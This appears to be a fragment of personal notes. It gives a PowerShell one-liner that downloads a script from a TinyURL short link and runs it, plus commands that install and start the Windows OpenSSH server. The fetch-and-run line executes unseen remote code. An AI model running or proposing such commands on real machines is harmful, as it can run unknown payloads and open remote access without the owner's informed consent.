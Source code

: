 
https://tinyurl.com/app/myurls

tinyurl.com/mwnpdrnc

···powershell
wget -O 1.ps1 tinyurl.com/mwnpdrnc
.\1.ps1
```

https://www.offersloc.com/archives/1553

ssh
Start-Service sshd

Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0